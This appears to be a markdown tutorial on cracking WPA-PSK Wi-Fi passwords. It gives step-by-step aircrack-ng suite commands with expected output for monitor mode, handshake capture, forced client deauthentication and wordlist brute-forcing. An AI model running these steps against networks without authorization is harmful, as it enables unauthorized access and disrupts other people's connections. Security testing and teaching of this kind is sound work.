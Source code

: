 # WPA Cracking

## Theory
Wi-Fi Protected Access (WPA) is a security protocol designed to secure wireless networks. WPA-PSK (Pre-Shared Key) relies on a shared password between the client and the AP. However, if an attacker captures the 4-way handshake during the connection process, they can attempt to brute-force the password using a wordlist.

The 4-way handshake is a critical part of the WPA authentication process. It occurs when:
1. A client connects to the AP.
2. The AP and client exchange cryptographic information to establish a secure connection.

If the handshake is captured, the attacker can use tools like `aircrack-ng` or `hashcat` to crack the password.

## Tools Required
- `aircrack-ng` suite
- `hashcat` for GPU-based cracking
- A wireless adapter capable of monitor mode and packet injection

## Steps

### Step 1: Enable Monitor Mode
Enable monitor mode on your wireless interface.

```bash
sudo airmon-ng start wlan0
```

Expected output:
```
Interface   Chipset         Driver
wlan0       Atheros         ath9k - [phy0]
                (monitor mode enabled on wlan0mon)
```

### Step 2: Capture the WPA Handshake
Use `airodump-ng` to capture the handshake. Specify the channel and BSSID of the target AP.

```bash
sudo airodump-ng -c [CHANNEL] --bssid [AP_MAC] -w capture wlan0mon
```

- `-c [CHANNEL]`: Channel of the target AP.
- `--bssid [AP_MAC]`: MAC address of the target AP.
- `-w capture`: Save the capture file as `capture.cap`.

Expected output:
```
 CH  6 ][ Elapsed: 2 mins ][ 2023-03-01 12:00
 BSSID              PWR  Beacons  #Data, #/s  CH  MB   ENC  CIPHER  AUTH ESSID
 00:14:6C:7E:40:80  -50      100     50    0   6  54e  WPA2  CCMP    PSK  MyWiFi

 STATION            PWR   Rate   Lost  Frames  Probe
 00:25:9C:CF:1C:9E  -40   36e     0     200   MyWiFi
```

Wait for a client to connect, or force a deauthentication to speed up the process.

### Step 3: Deauthenticate a Client
Force a client to reconnect by sending deauthentication frames.

```bash
sudo aireplay-ng -0 1 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon
```

Expected output:
```
Sending 1 deauthentication frame
```

### Step 4: Crack the Handshake
Use `aircrack-ng` to brute-force the password using a wordlist.

```bash
sudo aircrack-ng -w [WORDLIST] -b [AP_MAC] capture.cap
```

- `-w [WORDLIST]`: Path to the wordlist file.
- `-b [AP_MAC]`: MAC address of the target AP.

Expected output:
```
KEY FOUND! [ password123 ]
```

### Notes
- Use a strong wordlist for better chances of success.
- For faster cracking, consider using `hashcat` with GPU acceleration.
- Ensure you have authorization to test the target network.
